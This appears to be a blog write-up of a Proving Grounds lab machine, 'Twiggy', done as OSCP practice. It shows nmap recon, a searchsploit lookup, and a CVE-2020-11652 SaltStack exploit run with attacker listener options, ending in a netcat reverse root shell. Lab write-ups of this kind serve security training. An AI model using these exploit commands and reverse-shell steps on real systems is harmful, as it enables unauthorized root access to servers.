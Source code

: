 ```yaml
---
date: '2024-09-06'
before : '2024-09-04'
after : '2024-09-10'
title: 'OSCP Prep: Proving Grounds : Twiggy'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Twiggy machine from Proving Grounds'
thumbnail: '../contentImages/twiggy/twiggy-1.png'
---
```

## 0. Machine Info

Twiggy is a medium community-rated machine from Proving Grounds, maybe little bit harder than other easy machines but still easy enough.


> Nothing more to say, let's dive into the machine!


## 1. Recon

Starting with nmap scan

```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -T4 -p- -v 
\Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:20 EDT
Initiating Ping Scan at 02:20
SYN Stealth Scan Timing: About 51.50% done; ETC: 02:22 (0:00:57 remaining)
Completed SYN Stealth Scan at 02:22, 94.33s elapsed (65535 total ports)
Nmap scan report for 192.168.135.62
Host is up (0.050s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 94.48 seconds
           Raw packets sent: 131137 (5.770MB) | Rcvd: 376 (67.394KB)

```
- Port 22
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p22 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:33 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3.13 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.1 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 3.13 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).

```
- Port 80
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p80 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
```
- Port 4505, 4506, 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.135.62 -p4505,4506,8000 -A -sC -sV

[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

```
So we have 2 webapps (80, 8000), DNS, zmtp and ssh. Let's start with enumeration

## 2. Enumeration

Since we don't have any domain name it will be hard to enumerate DNS. Let's start with zmtp

- zmtp service

After googling for a while:

https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit saltstack
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                      | multiple/remote/48421.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's try it later. Moving to WebApp

- Webapp 

Visiting port 8000, I found following json-format output:

![twiggy-2](../contentImages/twiggy/twiggy-1.png)

Quick google search reveals us what this is.

>https://github.com/saltstack/salt/issues/52981


- Port 80

Nothing special, just a simple website powered by 8000 maybe.


## 3. Initial Foothold / Root

So I found only one CVE which could be useful, and somehow port 8000 and 80 is pointing to zmtp salt, which is a strong evidence that we should try this out.


At least, we found same keyword "salt" from both services.


> CVE-2020-11652

So let's dig deeper!

I downloaded Following Script:

```
┌──(hosan㉿kali)-[~/pg/twiggy/CVE-2020-11652]
└─$ python3 CVE-2020-11652.py --master 192.168.135.62 --port 4506 -lh 192.168.45.175 -lp 80 --exec-choose master
/home/hosan/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.135.62:4506) status... 
[+] Read root_key... root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906074412689156', 'tag': 'salt/run/20240906074412689156'}. Looks promising!
Got response for attempting master shell: {'jid': '20240906074412729080', 'tag': 'salt/run/20240906074412729080'}. Looks promising!

```
Error popped up, but I still got root shell.

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.175] from (UNKNOWN) [192.168.135.62] 55068
bash: no job control in this shell
[root@twiggy root]# 
```

## 4. Review

There are several things I learned:

1. Avoid using msfconsole.
2. Try various exploits from github with various options.
    -> For this, you will need to understand roughly what this exploit does 
4. Don't get frustrated!

---
## 5. Source

- Proving Grounds
- Me!